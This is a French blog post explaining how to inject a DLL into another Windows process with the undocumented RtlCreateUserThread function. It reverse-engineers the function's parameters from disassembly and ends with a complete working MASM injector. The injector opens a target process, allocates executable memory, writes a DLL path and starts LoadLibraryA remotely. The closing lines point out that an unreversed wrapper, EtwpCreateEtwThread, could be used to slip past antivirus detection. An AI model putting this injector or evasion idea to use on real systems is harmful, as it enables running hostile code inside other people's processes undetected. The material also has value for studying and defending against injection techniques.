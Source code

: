 
Cet article va me permettre de présenter une autre manière d'injecter une DLL dans un processus. Il fait suite aux 2 précédents:

* https://dokyx.fr/blog/oirtslkdf_injectdll_createremotethread/

* https://dokyx.fr/blog/uyniouliu_injectdll_ntcreatethreadex/

Ici, je vais utiliser la fonction __RtlCreateUserThread()__ qui se trouve dans __ntdll.dll__ afin de créer le thread qui sera injecté dans le processus cible et qui chargera en mémoire la DLL. Une fois chargée en mémoire, le code placé à l'entry point de la DLL sera exécuté.

Je me permet de rappeler que la fonction __CreateRemoteThread()__ utilise la fonction native __NtCreateThreadEx()__ afin de créer un thread dans un processus cible. Ainsi, il est possible de les utiliser pour faire de l'injection de DLL. En regardant de plus près la DLL __ntdll.dll__, on s'aperçoit que la fonction __NtCreateThreadEx()__ est appelée par une autre fonction (__RtlCreateUserThreadEx()__) qui elle-même est appelée par __RtlCreateUserThread()__.

Cette méthode d'injection de DLL par le biais de __RtlCreateUserThread__ est bien connue et est d'ailleurs utilisée par metasploit (https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/common/arch/win/remote_thread.c). On commence à sentir, au travers des différentes méthodes d'injection de DLL présentées jusqu'ici, qu'on touche du doigt les méthodes réellement utilisées par les pentesters (qui d'ailleurs ne connaissent pas toujours les fondamentaux des outils qu'ils utilisent).

Revenons à nos moutons. __RtlCreateUserThread()__ est une fonction utilisée par Windows, mais qui n'est pas documentée dans la msdn. En revanche, on peut tenter d'user de reverse engineering afin d'en saisir le fonctionnement et ainsi pouvoir l'utiliser correctement. Si l'on prend le temps de regarder la fonction __EtwpCreateEtwThread()__ et qui fait directement appel à __RtlCreateUserThread()__, on peut y déterminer le nombre de paramètres comme on peut le voir ci-dessous:

![image alt text](/images/dll-injection/rtlcreateuserthread_arg.png)

On voit rapidement que la fonction __RtlCreateUserThread()__ prend 10 paramètres. Je rappelle que la convention d'appels x64 est de mettre les 4 premiers paramètres dans les registres rcx, rdx, r8, r9 (dans cet ordre), puis les autres sur la stack. Ici, on ne pousse pas directement sur la stack. On peut voir l'instruction __mov r11, rsp__ en début de fonction qui permet de mettre l'adresse du pointeur de stack dans le registre r11. Ainsi tout ce qui fera référence à ce registre fera référence à la stack. On peut alors soit compter le nombre d'instruction qui positionne "quelque chose" à cette adresse+offset, et ajouter 4 (rcx, rdx, r8, r9), ce qui donnera le nombre de paramètres; ou bien, comprendre que l'instruction __sub rsp, 0x50__ permet de faire de la place sur la stack pour stocker les paramètres (0x50 = 80d -> 10 paramètres car 80/8 = 10).

Commençons par les paramètres les plus simples à déterminer. Le premier (celui qui est contenu dans rcx) est "probablement" un handle vers le processus dans lequel on veut créer le thread. Ce n'est qu'une supposition, mais c'est souvent comme ça que ça se passe.

Le second paramètre (rdx) est défini grâce à l'instruction __xor edx, edx__, ce qui revient à mettre le registre edx à 0.

Le troisième paramètre (r8) est défini grâce à l'instruction __mov r8b, 1__, ce qui permet de mettre r8b à 1.

Le quatrième  paramètre (r9) est défini grâce à l'instruction __xor r9d, r9d__, ce qui permet de mettre r9d à 0.

Le cinquième paramètre est poussé sur la stack grâce à l'instruction  __and qword [r11-0x38], 0__, ce qui permet de mettre le contenu situé à r11-0x38 à 0. En effet, la table de vérité du __AND__ (https://en.wikipedia.org/wiki/Truth_table) spécifie que: 

```
0 and 0 = 0
0 and 1 = 0
1 and 0 = 0
1 and 1 = 1
```

Le sizième paramètre est poussé sur la stack grâce à l'instruction __and qword [r11-0x30], 0__. Même réflexion que pour le cinquième paramètre.

Le dizième paramètre est poussé sur la stack grâce à l'instruction __and qword [r11-0x10], 0__. Même réflexion que pour le cinquième/sizième paramètre.

Les autres paramètres sont un peu plus difficile à estimer ... (septième: __mov [r11-0x28], rcx__, huitième: __mov [r11-0x20]__, rdx, neuvième: __mov [r11-0x18], rax__). Pour ceux qui ont lu l'article sur l'injection de DLL via CreateRemoteThread (https://dokyx.fr/blog/oirtslkdf_injectdll_createremotethread/), on se souvient que pour utiliser cette fonction il faut passer en paramètre le handle vers l'adresse de la fonction de __LoadLibrary()__, mais aussi l'adresse de base à laquelle une zone mémoire a été allouée dans le processus cible. On peut alors se douter que ces paramètres seront aussi présent ici. La question est: lesquels?

Ici, je vous avoue que j'ai commencé à coincer. L'idéal aurait été de coder un bout de code avec des fonctions documentées qui utilise __RtlCreateUserThread()__, mais je n'en connaissais pas. 

Cependant, j'ai pu m'en sortir grâce à l'excellent travail qui a été fait sur __reactos__ (https://doxygen.reactos.org/da/d0c/sdk_2lib_2rtl_2thread_8c.html#ae5f514e4fcb7d47880171175e88aa205). On y voit que le prototype de __RtlCreateUserThread()__ est:

```
RtlCreateUserThread( 
	IN HANDLE 					ProcessHandle,
	IN PSECURITY_DESCRIPTOR SecurityDescriptor 	OPTIONAL,
	IN BOOLEAN 					CreateSuspended,
	IN ULONG StackZeroBits 				OPTIONAL,
	IN SIZE_T StackReserve 				OPTIONAL,
	IN SIZE_T StackCommit 				OPTIONAL,
	IN PTHREAD_START_ROUTINE 			StartAddress,
	IN PVOID Parameter 				OPTIONAL,
	OUT PHANDLE ThreadHandle 			OPTIONAL,
	OUT PCLIENT_ID ClientId 			OPTIONAL 
)	
```

On vérifie alors que le premier paramètre est bien un handle vers le processus cible dans lequel on souhaite s'injecter. De plus, on constate que le septième paramètre contiendra le handle vers l'adresse de __LoadLibrary()__. Le neuvième paramètre est un buffer qui contiendra le handle du thread qui a été crée; et donc ce paramètre doit contenir le pointeur vers ce buffer. Et on estime alors que le huitième paramètre contient l'adresse de base de la zone mémoire allouée dans le processus cible.

Un dernier constat, qui peut avoir son intérêt, est le troisième paramètre qui indique "CreateSuspended" signifiant probablement que le thread est crée dans un état suspendu lorsqu'il est mis à 1. On peut alors estimer qu'une autre valeur permet de le créer en état non suspendue (0 ? oui !). Ou bien on devra utiliser la fonction __NtResumeThread()__ comme cela est fait dans le code de __ntdll.dll__ et comme on peut le voir ci-dessous:

![image alt text](/images/dll-injection/rtlcreateuserthread_suspended.png)

En résumé, la fonction __RtlCreateUserThread()__ devra s'utiliser comme:

```
.data?
	hCreateThread	dd ?
.code
	push 	0
	push 	offset hCreateThread
	push 	bassAddr
	push 	hLoadLibAddr
	push 	0
	push 	0
	push 	0
	push 	1 ; CreateSuspended
	push 	0
	push 	hProcess
	call 	RtlCreateUserThread
```

Bien évidemment je ne peux pas appeller __RtlCreateUserThread()__ comme ça, car cette fonction est dans __ntdll.dll__. Mais je peux trouver son adresse grâce à la fonction __GetProcAddress()__ (comme dans https://dokyx.fr/blog/uyniouliu_injectdll_ntcreatethreadex/). Ainsi:

```
.data
	sNtdll			db "ntdll.dll", 0
	sRtlCreateUserThread 	db "RtlCreateUserThread", 0

.data?
	hCreateThread		dd ?
	hNtdllAddr		dd ?
	hRtlCreateUserThreadAddr dd ?

.code

_getModuleHandle_ntdll:
	push 	offset sNtdll
	call 	GetModuleHandleA
	cmp 	eax, 0
	jz	_exit
	mov 	[hNtdllAddr], eax

_getProcAddress_RtlCreateUserThread:
	push 	offset sRtlCreateUserThread
	push	hNtdllAddr
	call 	GetProcAddress
	cmp 	eax, 0
	jz  	_exit
	mov 	[hRtlCreateUserThreadAddr], eax

_RtlCreateUserThread:
	push 	0
	push 	offset hCreateThread
	mov	eax, [baseAddr]
	push 	eax
	mov 	eax, [hLoadlibAddr]
	push 	eax	
	push 	0
	push 	0
	push 	0
	push 	0 ; CreateSuspended: 1
	push 	0
	mov 	eax, [hProcess]
	push 	eax
	
	mov 	eax, [hRtlCreateUserThreadAddr]
	call 	eax
```

Et pour finir, vous trouverez ci-dessous le code permettant d'effectuer de l'injection de DLL via __RtlCreateUserThread()__.

<details><summary><font color="red">Ici se trouve le code permettant de faire de l'injection de DLL via RtlCreateUserThread()</font></summary>
<p>
```
.586
.model flat, stdcall


; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL :DWORD
OpenProcess PROTO STDCALL :DWORD,:DWORD,:DWORD
VirtualAllocEx PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
WriteProcessMemory PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
GetModuleHandleA PROTO STDCALL :DWORD
GetProcAddress PROTO STDCALL :DWORD,:DWORD


.data
	dllPath 	db "C:\Users\User 1\Desktop\inject.dll",0
	sKrnl32 	db "kernel32.dll",0
	sLoadLib	db "LoadLibraryA",0
	sNtdll		db "ntdll.dll", 0
	sRtlCreateUserThread 	db "RtlCreateUserThread", 0
	PID 		dd 5376
	
.data?
    	hProcess 	dd ?
 	nSizeDLL 	dd ?
 	baseAddr	dd ?
 	hKrnl32Addr 	dd ?
 	hLoadLibAddr 	dd ?

	hRtlCreateUserThreadAddr dd ?
 	hCreateThread 	dd ?
 	hNtdllAddr 	dd ?

.code

Start PROC

_openProcess:
	mov 	eax, PID
	push 	eax
	push 	0
	push 	1F0FFFh ; PROCESS_ALL_ACCESS
	call 	OpenProcess
	cmp 	eax, 0
	jz 	_exit
	mov 	[hProcess], eax

	
_virtualAllocEx:
	push 	40h ; PAGE_EXECUTE_READWRITE
	push 	3000h ; MEM_RESERVE or MEM_COMMIT
	push 	sizeof dllPath
	push  	0
	push 	hProcess
	call 	VirtualAllocEx
	cmp 	eax, 0
	jz 	_exit
	mov 	[baseAddr], eax

_writeProcessMemory:
	push 	0
	push  	sizeof dllPath
	push 	offset dllPath
	push 	baseAddr
	push 	hProcess
	call 	WriteProcessMemory
	cmp 	eax, 0
	jz 	_exit

_getModuleHandle:
	push 	offset sKrnl32
	call 	GetModuleHandleA
	cmp 	eax, 0
	jz	_exit
	mov 	[hKrnl32Addr], eax

_getProcAddress:
	push 	offset sLoadLib
	push	hKrnl32Addr
	call 	GetProcAddress
	cmp 	eax, 0
	jz  	_exit
	mov 	[hLoadLibAddr], eax

_getModuleHandle_ntdll:
	push 	offset sNtdll
	call 	GetModuleHandleA
	cmp 	eax, 0
	jz	_exit
	mov 	[hNtdllAddr], eax

_getProcAddress_RtlCreateUserThread:
	push 	offset sRtlCreateUserThread
	push	hNtdllAddr
	call 	GetProcAddress
	cmp 	eax, 0
	jz  	_exit
	mov 	[hRtlCreateUserThreadAddr], eax

_RtlCreateUserThread:
	push 	0
	push 	offset hCreateThread
	mov	eax, [baseAddr]
	push 	eax
	mov 	eax, [hLoadlibAddr]
	push 	eax	
	push 	0
	push 	0
	push 	0
	push 	0 ; CreateSuspended: 1
	push 	0
	mov 	eax, [hProcess]
	push 	eax
	
	mov 	eax, [hRtlCreateUserThreadAddr]
	call 	eax

_exit:
	xor     eax, eax
	push 	eax
	call 	ExitProcess

Start ENDP
END
```
</p>
</details>

On voit que l'on touche du doigt les méthodes modernes d'injection de DLL, en tout cas celles utilisées dans metasploit.

Je n'ai pas encore porté tout ça sur du x64 par flemme, mais promis, je reprendrais toutes les méthodes d'injection de DLL que j'ai présenté et je les porterais sur x64 à l'occasion.

On a pu également voir que la fonction __RtlCreateUserThread()__ était une sorte de "wrapper" de __NtCreateThreadEx()__. Mais ce que je n'ai pas souligné plus haut est que __EtwpCreateEtwThread()__ est également une sorte de "wrapper" pour __RtlCreateUserThread()__. Il serait donc possible d'effectuer de l'injection de DLL avec cette fonction ... Je n'ai trouvé aucune trace de cette méthode sur Internet ^^, il y a donc peu de chance qu'elle soit détectée par les antivirus, si vous voyez ce que je veux dire ...

Il suffit de "reverser" la fonction __EtwpCreateEtwThread()__, pour mettre au point une nouvelle méthode d'injectiond de DLL, mais aussi pour contribuer à __reactos__ car cette fonction n'a pas encore été "reversée". G00d LucK with that !


